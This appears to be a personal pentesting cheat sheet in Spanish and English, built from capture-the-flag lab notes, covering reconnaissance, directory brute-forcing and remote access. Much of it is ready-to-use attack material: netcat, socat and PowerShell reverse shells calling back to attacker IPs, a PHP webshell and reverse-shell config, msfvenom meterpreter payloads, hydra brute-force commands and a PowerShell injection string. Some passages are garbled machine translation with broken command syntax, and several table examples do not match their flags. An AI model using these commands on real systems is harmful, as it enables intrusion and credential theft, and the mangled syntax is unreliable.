






# hackers (consultores de seguridad) o defensores (analistas de seguridad que luchan contra el cibercrimen)
1. Penetration Tester: Responsable de probar productos tecnológicos para encontrar vulnerabilidades de seguridad explotables.
2. Red Teamer: Interpreta a un adversario, atacando a una organización y proporcionando retroalimentación desde la perspectiva del enemigo.
3. Ingeniero de Seguridad: Diseña, supervisa y mantiene controles de seguridad, redes y sistemas para ayudar a prevenir ciberataques.
Responde las preguntas a continuación.

## seguridad ofensiva
**cuyo objetivo es identificar y explotar las vulnerabilidades del sistema para mejorar las medidas de seguridad. Esto incluye la explotación de errores de software, el aprovechamiento de configuraciones inseguras y el aprovechamiento de políticas de control de acceso no implementadas, entre otras estrategias. Los equipos rojos y los evaluadores de penetración se especializan en estas técnicas ofensivas.**

## la seguridad defensiva.
- Prevenir intrusiones
- Detectar intrusiones cuando ocurren y responder adecuadamente
- Los equipos azules forman parte del panorama de la seguridad defensiva.

- Concienciación del usuario sobre ciberseguridad: Capacitar a los usuarios en ciberseguridad ayuda a protegerse contra ataques dirigidos a sus sistemas.
- Documentar y administrar activos: Necesitamos conocer los sistemas y dispositivos que debemos administrar y proteger adecuadamente.
- Actualizar y aplicar parches a los sistemas: Asegurarse de que los equipos, servidores y dispositivos de red estén correctamente actualizados y parcheados contra cualquier vulnerabilidad(debilidad) conocida. 
- Configuración de dispositivos de seguridad preventiva: Los firewalls y los sistemas de prevención de intrusiones (IPS) son componentes esenciales de la seguridad preventiva. Los firewalls controlan el tráfico de red que entra y sale del sistema o la red. Los IPS bloquean cualquier tráfico de red que cumpla con las reglas y firmas de ataque actuales.
- Configuración de dispositivos de registro y monitorización: Un registro y una monitorización de red adecuados son esenciales para detectar actividades maliciosas e intrusiones. Si un nuevo dispositivo no autorizado aparece en nuestra red, deberíamos poder detectarlo.

Centro de Operaciones de Seguridad (SOC)

Inteligencia de Amenazas

Análisis Forense Digital y Respuesta a Incidentes (DFIR)

Análisis de Malware

# Comandos para Pentesting

## Arp-Scan
Es una herramienta de reconocimiento utilizada en entornos de hacking (pentesting, auditorías de seguridad) para descubrir hosts activos en una red local. Funciona enviando solicitudes ARP (Address Resolution Protocol) y analizando las respuestas para identificar dispositivos conectados

```bash
sudo arp-scan -I eth1 -l
```


## TCPDUMP
Captura el trafico de red

```bash
tcpdump -i eth1 -w Captura.cap -v
```

```bash
tcpdump -i lo -w Captura.cap -v
```


```bash
wireshark -r Captura.cap &> /dev/null & disown
```


```bash
tshark -r Captura.cap 2> /dev/null 
```

```bash
tshark -r Captura.cap -Y "http" 2> /dev/null 
```

```bash
tshark -r Captura.cap -Y "http" -Tjson 2> /dev/null | xxd -ps -r
```

```bash
tshark -r Captura.cap -Y "http" -Tjson -e tcp.payload 2> /dev/null | xxd -ps -r | grep "GET" | awk '{print $2}'
```

## Nmap
(Network Mapper) es una de las herramientas más poderosas en hacking y administración de redes. Se usa para descubrir hosts, puertos abiertos, servicios y vulnerabilidades en sistemas remotos. A diferencia de arp-scan (que opera en la capa 2), Nmap trabaja en las capas 3 (Red) y 4 (Transporte) del modelo OSI, permitiendo escaneos más avanzados.

Nmap envía paquetes personalizados (TCP, UDP, ICMP, etc.) a un objetivo y analiza las respuestas para determinar:

Hosts activos (si están "vivos").

Puertos abiertos (qué servicios están corriendo).

Versiones de software (ej: Apache 2.4, OpenSSH 7.6).

Sistema operativo (mediante fingerprinting).

Vulnerabilidades (usando scripts NSE).

## 🛠️ Comandos útiles de Nmap (Network Mapper)

| Comando                          | Descripción                                                                                     | Ejemplo de uso                                  |
|----------------------------------|-------------------------------------------------------------------------------------------------|------------------------------------------------|
| `nmap -sn <target>`              | Escaneo de descubrimiento de hosts (solo ping).                                                | `nmap -sn 192.168.1.0/24`                      |
| `nmap -p <puertos> <target>`     | Escanea puertos específicos.                                                                    | `nmap -p 80,443,22 192.168.1.100`              |
| `nmap -p- <target>`              | Escanea **todos** los puertos (1-65535).                                                       | `nmap -p- 192.168.1.100`                       |
| `nmap -sS <target>`              | Escaneo sigiloso SYN (requiere sudo).                                                          | `sudo nmap -sS 192.168.1.100`                  |
| `nmap -sV <target>`              | Detecta versiones de servicios.                                                                | `nmap -sV 192.168.1.100`                       |
| `nmap -sC <target>`              | Ejecuta scripts básicos de Nmap (NSE) para buscar vulnerabilidades o información adicional.    | `nmap -sV 192.168.1.100`                       |
| `nmap -O <target>`               | Detecta el sistema operativo del objetivo.                                                     | `sudo nmap -O 192.168.1.100`                   |
| `nmap -A <target>`               | Escaneo agresivo (SO, versiones, scripts).                                                     | `sudo nmap -A 192.168.1.100`                   |
| `nmap --script <script> <target>`| Ejecuta scripts NSE (ej: vulnerabilidades).                                                    | `nmap --script vuln 192.168.1.100`             |
| `nmap -sU -p <puertos> <target>` | Escaneo UDP (para servicios como DNS, SNMP).                                                   | `sudo nmap -sU -p 53,161 192.168.1.100`        |
| `nmap -T4 <target>`              | Escaneo rápido (T0: lento, T5: agresivo).                                                     | `nmap -T4 192.168.1.100`                       |
| `nmap -oN <file> <target>`       | Guarda resultados en formato de texto.                                                         | `nmap -oN scan.txt 192.168.1.100`              |
| `nmap -oG <file> <target>`       | Guarda resultados en formato de texto.                                                         | `nmap -oN scan.txt 192.168.1.100`              |
| `nmap -oN <file> <target>`       | Guarda resultados en formato de texto.                                                         | `nmap -oN scan.txt 192.168.1.100`              |
| `nmap -f <target>`               | Fragmenta paquetes para evadir firewalls.                                                      | `sudo nmap -f 192.168.1.100`                   |
| `nmap -D <decoy1,decoy2> <target>`| Escaneo con IPs señuelo.                                                                      | `sudo nmap -D RND:5 192.168.1.100`             |
| `nmap -Pn <target>`              |Omite el descubrimiento de hosts (asume que el objetivo está activo). Útil si bloquea ICMP (ping). | `nmap -Pn 192.168.1.100`             |
| `nmap -n <target>`              |Evita que Nmap realice búsquedas DNS (resolución inversa de nombres de dominio para las IPs escaneadas). | `nmap -Pn 192.168.1.100`             |
| `nmap -sY -p 1-1000 <IP>`              |Nmap puede detectar servicios SCTP usando los parámetros -sY (escaneo SCTP INIT) o -sZ (escaneo SCTP COOKIE ECHO, más sigiloso). | `nmap -sY -p 1-1000 <IP>`             |
| `nmap -sZ -p 5060 <IP>`              |Escaneo sigiloso con SCTP COOKIE ECHO (-sZ) | `nmap -sZ -p 5060 <IP>`             |
| `nmap -sN  <IP>`              |Es un tipo de escaneo TCP donde no se activa ningún flag en el encabezado TCP. el paquete enviado no contiene ningún flag TCP activo (ni SYN, ni ACK, ni RST, ni FIN… nada).| `nmap -sN -T2 -f --data-length 20 10.10.201.29`             |


## Descubir Host Activos con nmap

```bash
nmap -sn 192.168.100.0/24 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort
```

## 🛠️ Ejemplo de uso escaneo agresivo de puertos con Nmap TCP

```bash
sudo nmap -sS --min-rate 5000 -p- --open -n -Pn 10.200.150.100 -oN scan.txt
```

## 🛠️ Ejemplo de uso escaneo agresivo de puertos con Nmap UDP

```bash
sudo nmap -sU --top-ports 500 --open -T5 -vvv -n -Pn 192.168.219.136 -oN scan.txt
```


## 🛠️ SCTP (Stream Control Transmission Protocol) - Protocolo de Transmisión de Control de Flujo

SCTP (Stream Control Transmission Protocol) es un protocolo de transporte de capa 4 (como TCP y UDP), diseñado para proporcionar características avanzadas como:
- Transmisión confiable (como TCP)
- Orientado a conexión (establece una asociación entre extremos)
- Multihoming (soporta múltiples rutas de red para redundancia)
- Multistreaming (envía múltiples flujos de datos independientes en una sola conexión)
- Protección contra ataques de inundación SYN (SYN Flood)

Se usa comúnmente en telecomunicaciones (VoIP, LTE, SIGTRAN) y aplicaciones que requieren alta disponibilidad.

```bash
sudo nmap -p- -sY --min-rate 5000 --open -vvv -n -Pn 192.168.219.136 -oN scan.txt
```

 sudo nmap -sY -sV -p22,80 192.168.219.136


**¿Qué hace este comando en la práctica?:**  

- Escanea todos los puertos TCP (1-65535) del host 192.168.219.133.

- Usa técnicas sigilosas (SYN Scan) para evitar logs en el objetivo.

- Prioriza velocidad (5000 paquetes/segundo), lo que puede ser ruidoso.

- Filtra solo puertos abiertos (ignora cerrados/filtrados).

- Guarda el resultado en scan.txt para análisis posterior.

**Ejemplo de salida (scan.txt):**  


**Extraer puertos abiertos de un escaneo de Nmap (scan.txt) y formatearlos para usarlos en otras herramientas.**

```bash
grep '^[0-9]' scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
```

1. grep '^[0-9]' scan.txt 
- Filtra líneas en scan.txt que comienzan con un número (^[0-9]). grep selecciona estas líneas y descarta las demás (como encabezados o puertos cerrados).

2. cut -d '/' -f1 
- Divide cada línea por el carácter / (-d '/') y selecciona el primer campo (-f1).

3. sort -u  
- Ordena los puertos numéricamente y elimina duplicados (-u = unique).
4. xargs  
- Convierte la lista de puertos (uno por línea) en una sola línea separada por espacios.
5. tr ' ' ','  
- Reemplaza espacios por comas para crear una lista legible.

**Ejemplo de salida (scan.txt):**  


**El comando realiza un escaneo dirigido con Nmap a la IP 192.168.219.133, enfocándose en puertos específicos y obteniendo información detallada de servicios. Aquí la explicación corta:**


```bash
nmap -p -sV -sC -Pn -vvv -n  ip -oN fullScan.txt 
```

```bash
nmap -p80,8080 -sV -sC -Pn -vvv -n 10.200.150.100 -oN fullScan.txt 
```


**Investigar vulnerabilidades o explotar servicios vulnerables**
```bash
nmap -sV --script vuln 10.10.209.236
```


# Netcat
**Se utiliza para realizar manualmente todo tipo de interacciones de red, incluidas cosas como el agarre de banner durante la enumeración, pero lo que es más importante para nuestros usos, se puede usar para recibir conchas inversas y conectarse a puertos remotos conectados a los conchas de enlace en un sistema de destino.**

```bash
nc -e /bin/sh 10.0.0.1 1234
```

```bash
nc -lvnp <port -Number>
```

- L se usa para decirle a Netcat que este será un oyente
- V se utiliza para solicitar una salida detallada
- N le dice a NetCat que no resuelva los nombres de host o use DNS. Explicando que esto está fuera del alcance de la habitación.
- P indica que la especificación del puerto seguirá.


**Tenga en cuenta que si elige usar un puerto por debajo de 1024, deberá usar sudo al comenzar su oyente**
- sudo nc -lvnp 443


**Reverse Shell example:**
On the attacking machine

```bash
sudo nc -lvnp 443
```

On the target:

nc <LOCAL-IP> <PORT> -e /bin/bash


**Bind Shell example:**

nc -lvnp <port> -e "cmd.exe"

On the attacking machine:

nc MACHINE_IP <port>


# Technique 1: Python

La primera técnica que discutiremos es aplicable solo a las cajas de Linux, ya que casi siempre tendrán Python instalado de forma predeterminada.
The first thing to do is use 

- reemplace Python con Python2 o Python3 según sea necesario**

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

- El paso dos es: Exportar término = xterm: esto nos dará acceso a comandos de término, como Clare.

- Finalmente (y lo más importante), contaltaremos el shell usando Ctrl + Z. 
- De vuelta en nuestro propio terminal usamos 
```bash
stty raw -echo; fg 
```

Esto hace dos cosas: primero, apaga nuestro propio eco terminal (lo que nos da acceso a las autocompletadas de TAB, las teclas de flecha y Ctrl + C para matar procesos). Luego se destaca la shell, completando así el proceso. 


# What is the syntax for setting up a Python3 webserver on port 80?


sudo python3 -m http.server 80


# EJEMPLO
- Caso webShel

usar el Archivo y modificar los siguiente 
- /root/Downloads/webshells/php


set_time_limit (0);
$VERSION = "1.0";
    $ip = '10.10.90.204';  // CHANGE THIS  ip del atacante
    $port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';

$daemon = 0;
$debug = 0;


Cargar el Archivo php-reverse-shell.php




Al momento de subir se va a concetar a la ip del atacante que debe estar escuchando 




## Vamos a estabilizar la coneccion
Extra: stabilize the netcat:

1. python3 -c 'import pty;pty.spawn("/bin/bash")' Try python, python2 and Python3 by order.
2. export TERM=xterm
3. Background the shell using Ctrl + Z. 
4. Back in our own terminal we use stty raw -echo; fg





# Técnica 2: RLWRAP

RLWRAP es un programa que, en términos simples, nos da acceso al historial, al autocompleto de pestañas y las claves de flecha inmediatamente después de recibir un caparazón; Sin embargo, se debe utilizar alguna estabilización manual si desea poder usar CTRL + C dentro de la carcasa. RLWRAP no se instala de forma predeterminada en Kali, así que primero instálelo con 
```bash
sudo apt install rlWrap.
```

Para usar RLWRAP, invocamos a un oyente ligeramente diferente:

```bash
rlWrap nc -lvnp <port>
```

# MSFVENOM

**MSFVENOM es técnicamente parte del marco de Metasploit, sin embargo, se envía como una herramienta independiente. MSFVENOM se usa para generar cargas útiles en la marcha.**

MSFVENOM -P <Load carga> <pections>

Por ejemplo, para generar un shell inverso de Windows X64 en un formato EXE, podríamos usar:

MSFVENOM -P Windows/x64/shell/reverse_tcp -f exe -o shell.exe lhost = <Inding-ip> Lport = <Inding-Port>

linux/x86/shell_reverse_tcp


msfvenom --list payloads | grep "linux/x64"

msfvenom --list formats


msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64


-F <Format>
Especifica el formato de salida. En este caso, eso es un ejecutable (exe)
-o <archivo>
La ubicación de salida y el nombre de archivo para la carga útil generada.
Lhost = <ip>
Especifica la IP para conectarse nuevamente. Al usar TryhackMe, esta será su dirección IP TUN0. Si no puede cargar el enlace, no está conectado a la VPN.
Lport = <port>


What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf  LHOST=10.10.10.5 LPORT=443


# Meterpreter

Type use multi/handler, and

set PAYLOAD <payload>
set LHOST <listen-address>
set LPORT <listen-port>
We should now be ready to start the listener!

Let's do this by using the exploit -j command. This tells Metasploit to launch the module, running as a job in the background.

# WebShells

**WINDOWS**

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>


/usr/share/webshells -- i


Practice and Examples
This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.

Answer the questions below
Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

No answer needed
Complete
Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

No answer needed
Complete
Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

No answer needed
Complete
Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

No answer needed
Complete
Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.

No answer needed
Complete
Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

No answer needed
Complete
Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

No answer needed
Complete
The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

No answer needed
Complete
Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

No answer needed
Complete
Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

No answer needed
Complete
Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?


# The PentestMonkey Reverse Shell Cheatsheet
**https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet**


https://medium.com/@Deepika-001/what-the-shell-tryhackme-thm-248b5d58f128


## Socat 
**(Socket Concatenate) es una herramienta de línea de comandos que permite transferir datos bidireccionalmente entre dos puntos (similar a netcat, pero más potente).**

- Soporta múltiples protocolos: TCP, UDP, SSL, SCTP, UNIX sockets, archivos, pipes, etc.
- Útil para debugging, tunneling, redirección de puertos y conexiones proxy.

```bash
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
```
```bash
socat TCP-LISTEN:80,fork sctp:192.168.219.136:80
```


On a Linux target we would use the following command:

socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes


socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

### Ejemplo

**Victima**

socat TCP:10.10.90.204:11111 EXEC:"bash -li"

**Atacante**

socat TCP-L:11111 -





**Socat Encrypted Shells**
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

cat shell.key shell.crt > shell.pem

Ahora, al configurar nuestro receptor de shell inverso, usamos:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -


Destino:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Atacante:

socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -


```bash
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Escucha en el puerto 53/TCP (comúnmente usado por DNS, lo que ayuda a evadir firewalls).

Usa SSL/TLS con el certificado encrypt.pem (autogenerado normalmente con openssl).

No verifica certificados del cliente (verify=0).

Redirecciona todo lo recibido al terminal actual (FILE:\tty``) como si fuera una shell interactiva.

Las opciones raw,echo=0 hacen que la terminal funcione sin eco y en modo crudo (más realista para una shell interactiva).


```bash
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane
```

Se conecta al host 10.10.10.5 por el puerto 53 usando SSL/TLS.

No verifica el certificado del servidor (verify=0).

Lo que recibe y envía a través de esa conexión lo vincula con un shell interactivo de bash (bash -li).

Usa pty para que sea una terminal interactiva.

Las demás opciones (stderr, sigint, setsid, sane) aseguran que la terminal sea más realista y funcional (como si fuera una sesión legítima de shell).




mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f


### windows 

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


## Gobuster para encontrar páginas web ocultas
**En el comando anterior, -u indica el sitio web que estamos escaneando, y -w toma una lista de palabras que itera para encontrar páginas ocultas.**


Gobuster le habrá indicado las páginas en la lista de nombres de páginas/directorios (indicadas por Estado: 200).
```bash
gobuster dir -u http://fakebank.thm -w wordlist.txt dir
```

```bash
gobuster dir -u http://10.10.191.71 -w wordlist.txt dir
```

```bash
gobuster dir -u http://10.10.191.71 -x php,html,css,js,txt,pdf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
gobuster dir -u http://10.10.52.46/ -w /usr/share/wordlists/dirb/big.txt --exclude-length 0
```

```bash
feroxbuster -u 'http://silverplatter.thm/' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

```bash
dirb https://10.10.52.46/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

```bash
nikto -h http://10.10.52.46
```

```bash
nmap -p80 --script http-enum 10.10.191.71
```

```bash
grep -R " "
```


dashboard/api/uploads/


Using ffuf:


ffuf
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.186.68/FUZZ


ffuf -u 'http://storage.cloudsite.thm/api/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -mc 200,302,403 -t 50 -fc 404


dirb
dirb http://10.10.186.68/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
Using Gobuster:


gobuster
gobuster dir --url http://10.201.98.118/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
Using the results from the commands above, please answer the below questions:


script /dev/null -c bash
python -c 'import pty; pty.spawn("/bin/bash")'


enum4linux-ng -A 10.211.11.10 -oA results.txt


Para extraer solo los nombres de usuario (username) del archivo JSON proporcionado, puedes usar el siguiente comando en Linux con herramientas como jq (especializada en procesamiento JSON):

Comando con jq:
bash
jq -r '.users[] | .username' archivo.json
Explicación:
jq: Herramienta para procesar JSON en la terminal.

-r: Raw output (sin comillas).

'.users[] | .username': Filtro que:

Accede al objeto users (que contiene todos los usuarios).

Itera sobre cada usuario ([]).

Extrae el campo username.

Salida esperada:


# Herramienta de Fuerza Bruta

## Hydra es una herramienta de SINIT

Hydra es una herramienta de fuerza bruta que prueba credenciales (usuarios/contraseñas) contra diversos servicios (SSH, FTP, HTTP, etc.) mediante ataques de diccionario o combinaciones automáticas.

Sintaxis Básica
```bash
hydra -l <usuario> -P <diccionario_contraseñas> <servicio>://<IP> -s <puerto> -t <hilos>
```

-l: Usuario específico.

-L: Lista de usuarios (si no conoces el nombre).

-p: Contraseña específica.

-P: Archivo con contraseñas (ej: rockyou.txt).

-s: Puerto del servicio (opcional si no es el default).

-t: Número de hilos (acelera el ataque).


1. Ataque a SSH
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -t 4
```

Prueba la contraseña admin con todas las palabras de rockyou.txt.

2. Ataque a FTP (con lista de usuarios)
```bash
hydra -L usuarios.txt -P contraseñas.txt ftp://10.0.0.1 -V

```


ftp <IP_del_objetivo>
Usuario: anonymous


ftp <IP> <puerto>


hydra -t 8 -vV -L /your_path_to_your_usernames_file.txt/your_usernames_file.txt -P /your_path_to_rockyou.txt/rockyou.txt ftp://your_target_IP:10021


```bash
hydra -t 8 -vV -L usert.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.201.29:10021
```


-V: Muestra intentos en tiempo real.

3. Ataque a Formulario Web (POST)
```bash
hydra -l user -P passlist.txt 192.168.1.105 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect" -V
```

```bash
hydra -l scr1ptkiddy  -P passlist.txt 192.168.1.105 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^:F=Login or password incorrect"
```

```bash
hydra -l scr1ptkiddy  -P passwords.txt 10.10.157.75 -s 8080  http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
```

4. Enfoque en RDP:
```bash
hydra -L users.txt -P passwords.txt rdp://<IP>
```


Opciones Útiles
Opción	Descripción
-e nsr	Prueba contraseñas vacías (n), el nombre de usuario (s) o inverso (r)
-f	Detiene el ataque al encontrar la primera contraseña válida
-vV	Modo verbose (muestra más detalles)
-o salida.txt	Guarda resultados en un archivo

# Cewl (Custom Word List Generator) 
Es una herramienta que genera diccionarios personalizados extrayendo palabras de un sitio web. El comando que mencionas tiene este propósito:

Opciones útiles de Cewl (para personalizar la salida):
```bash
cewl http://silverplatter.thm -d 3 -m 6 -w passwords.txt
```

-d 3: Profundidad de rastreo (3 niveles).

-m 6: Longitud mínima de palabras (6 caracteres).

-w: Guarda directamente en un archivo (sin usar >).


# Conexión SSH desde Terminal de Linux

ssh juan@192.168.1.100 -p 22

Con clave SSH (recomendado)
bash
ssh -i ~/.ssh/mi_clave_privada usuario@servidor
Opciones útiles:
-v: Modo verbose (muestra detalles de conexión)

-X: Habilita X11 forwarding (para aplicaciones gráficas)

-L: Crear túnel SSH (port forwarding)

Ejemplo completo:
bash
ssh -i ~/.ssh/id_rsa -p 2222 -X juan@servidor.example.com

# Si el grupo adm tiene permisos excesivos (ej: lectura de logs sensibles), podría usarse para escalar privilegios

# Ver permisos del grupo 'adm'
grep '^adm:' /etc/group  

# Ver archivos accesibles por el grupo
find / -group adm 2>/dev/null  


grep -iR tyler


# Estructura del archivo /etc/passwd 

El archivo /etc/passwd en Linux es un archivo de texto que contiene información esencial sobre las cuentas de usuario del sistema. Aunque su nombre sugiere que almacena contraseñas, en sistemas modernas estas se guardan en /etc/shadow (por seguridad).

tim:x:1001:1001:Tim Hack:/home/tim:/bin/bash
Usuario: Nombre de la cuenta (tim).

Contraseña: x indica que la contraseña está en /etc/shadow.

UID (User ID): Número identificador del usuario (1001).

0 = root

1-999 = cuentas del sistema

≥1000 = usuarios normales

GID (Group ID): Número del grupo primario (1001).

Descripción: Comentario o nombre completo (opcional).

Directorio home: Ruta del directorio personal (/home/tim).

Shell: Intérprete de comandos por defecto (/bin/bash).


# WINDOWS

## RDP  3389/tcp - ms-wbt-server


## SMB  445

```bash
smbclient -L //10.129.173.246/ -N
```

RDP 

xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.59.36 /u:Administrator /p:'TryH4ckM3!'

WinRM 


## Kerberos 88

## WinRM  5985
evil-winrm -i 10.10.10.5 -u Administrator -p 'MyP@ssw0rd'


## NetBIOS  139

# Powershell injection

PowerShell injection es una técnica donde un atacante ejecuta comandos maliciosos a través de scripts o aplicaciones que procesan entradas no validadas. Aquí tienes ejemplos comunes:


BitlockerActiveMonitoringLogs') ; type C:\Users\dev\Desktop\user.txt  ; dir ; #('


# OSINIT

curl http://10.10.186.68 -v


curl http://10.10.186.68 -v
*   Trying 10.10.186.68:80...
* TCP_NODELAY set
* Connected to 10.10.186.68 (10.10.186.68) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.186.68
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< X-Powered-By: PHP/7.4.3
< Date: Mon, 19 Jul 2021 14:39:09 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive

There are also external resources available that can help in discovering information about your target website; these resources are often referred to as OSINT or (Open-Source Intelligence) as they're freely available tools that collect information:


**Google Hacking / Dorking**

